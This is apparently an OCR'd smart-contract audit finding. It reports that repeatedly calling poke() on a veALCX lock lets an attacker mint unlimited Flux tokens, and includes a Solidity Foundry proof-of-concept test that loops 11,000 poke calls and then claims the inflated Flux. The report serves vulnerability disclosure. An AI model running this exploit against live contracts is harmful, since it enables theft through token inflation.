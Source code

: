 This bug involves only exploit of poke() function. For this bug the attacker can mint unlimited amount of Flux token. 

        
## Proof of concept
#  Proof of concept

## testFluxAccrual_Poke_Hacked() 
I created the POC for exploit scenario 

The POC code: 
```solidity
function testFluxAccrual_Poke_Hacked() public {
        
        address attacker = address(this); 
        console2.log("Start to createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 2 weeks, false);
                
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        console2.log("Call voter.poke(tokenId1)");
        
        uint256 count = 11000; 

        for (uint256 i = 0; i < count; ++i)
        {
            voter.poke(tokenId1);                       
        
        }
        
        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker));

}
```
